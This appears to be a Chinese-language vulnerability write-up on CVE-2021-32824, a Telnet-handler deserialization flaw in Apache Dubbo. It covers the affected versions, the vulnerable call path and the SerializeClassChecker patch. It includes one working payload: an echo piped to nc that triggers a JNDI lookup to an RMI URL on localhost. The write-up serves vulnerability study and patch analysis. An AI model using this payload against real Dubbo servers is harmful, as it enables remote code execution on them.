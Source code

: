 ```yaml
---
sidebar_position: 1
tags: [CVE, Dubbo, Deserialization]
---
```


# CVE-2021-32824 Telnet Handler 反序列化 GHSL-2021-039

## 概述

### 影响版本

2.6.10、[2.7.0, 2.7.9]

## 复现分析

Dubbo 服务端口允许通过 Telnet 访问，可以通过 invoke 调用 Handler。

![image-20240201113526655](attachments/image-20240201113526655.png)

而 `org.apache.dubbo.qos.legacy.InvokeTelnetHandler` 最终会调用到 `org.apache.dubbo.common.utils.PojoUtils#realize()` 方法，并且可以用来实例化任意类并调用其 setter 方法。

![image-20240201114252305](attachments/image-20240201114252305.png)

所以 payload 如下：

```
echo "invoke org.example.api.DemoService.sayHello({'class':'org.apache.xbean.propertyeditor.JndiConverter','asText': 'rmi://127.0.0.1:1099/clbebc'})" | nc -i 1 127.0.0.1 12345
```

## 补丁

补丁在 `PojoUtils#realize0()` 中添加了 `SerializeClassChecker` 校验

![image-20240201110554242](attachments/image-20240201110554242.png)

复现 CVE-2021-30179 时 `raw.return` 也是进入了该函数，所以同样是这个方式的补丁。

![image-20240201110511816](attachments/image-20240201110511816.png)
